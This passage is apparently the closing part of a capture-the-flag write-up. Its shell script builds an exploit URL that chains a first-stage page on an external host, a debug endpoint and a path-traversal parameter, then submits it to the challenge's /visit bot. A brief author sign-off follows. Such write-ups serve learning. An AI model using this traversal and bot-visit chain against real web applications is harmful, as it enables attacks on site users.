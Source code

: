```sh
# extract the id of the payload note we just created
id="$(curl -s -b cookies.txt -c cookies.txt "$CHALLENGE/notes" | pup "li > a attr{href}" | tail -c 37)"

# generate the URL that will be given to /visit
# the first stage exploit editor.43z.one/kczdj that takes two parameters
# url1 is debug endpoint to our payload note
# url2 is the /note endpoint that fetches the debug payload note
encoded="$(echo "https://editor.43z.one/kczdj/i?url1=$ENDPOINT/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/$id&url2=$ENDPOINT/note/$id?id=../debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/$id" | jq -sRr @uri)"

# append the FULL URL to the /visit endpoint
echo "$CHALLENGE/visit?url=$encoded"
```


## THE END
That was fun. Learned a lot.  I hope you did too.

twitter: [h43z](https://twitter.com/h43z) 
homepage: [h.43z.one](https://h.43z.one) 
